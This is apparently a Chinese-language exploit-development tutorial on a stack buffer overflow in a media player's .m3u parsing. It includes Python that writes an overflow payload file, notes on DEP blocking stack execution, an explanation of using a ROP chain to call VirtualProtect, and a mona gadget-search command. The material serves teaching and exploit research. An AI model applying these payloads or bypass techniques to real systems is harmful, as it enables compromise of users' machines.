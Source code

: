 #### 尝试执行栈上指令

选用 `0x1010539f`（`0x1000d0ff`存在"`\x00`"，不能正常工作）

```python
payload = b"A"*1012 + b"\x9f\x53\x10\x10" + b"\xcc"
file = open('test.m3u','wb')
file.write(payload)
file.close()
```

在windbg下打开`VMPlayer`，拖入`test.m3u`文件，得到以下结果：

![dep_red](../pic/Exploitme-ROP/DEP_c0000005.png)

说明开启了`DEP`防护，无法直接执行shellcode。

### 构造ROP使用绕过DEP

我们需要使用`ROP`调用`VirtualProtect`函数，以关闭shellcode所在页的`DEP`保护。

#### VirtualProtect

首先介绍VirtualProtect函数

```
BOOL VirtualProtect (
	LPVOID lpAddress, 	# 要改变属性的内存起始地址
	DWORD dwSize,		# 要改百年属性的内存字节数
	DWORD flNewProtect,	# 输入新的页属性
	PDWORD lpflOldProtect # 返回旧的页属性
);
```

页属性为 `PAGE_EXECUTE_READWRITE(0x40)`时，该页可读可写可执行。

我们的调用参数应该如下：

```c
BOOL VirtualProtect (
	shellcode_addr，# shellcode起始地址
    shellcode_len, 	# 不小于shellcode长度，比如 0x201(常用)
    0x40,			# PAGE_EXECUTE_READWRITE
    某个可写地址，
);
```

#### mona搜索ROPChain

- 优先使用程序本身的`dll`而不是系统库，前者没开启`ASLR`，即便系统重启，`payload`仍有效。
- `-cp nonull` 避免出现"`\x00`"字节导致`payload`被截断
- `mona`可以设置日志文件的存放目录（目录路径不要加双引号）

`windbg`下执行以下命令，由于缺少符文报错，尝试`immunity debugger`

```python
!py mona rop -m "bass,basswma,bassmidi" -cp nonull
```
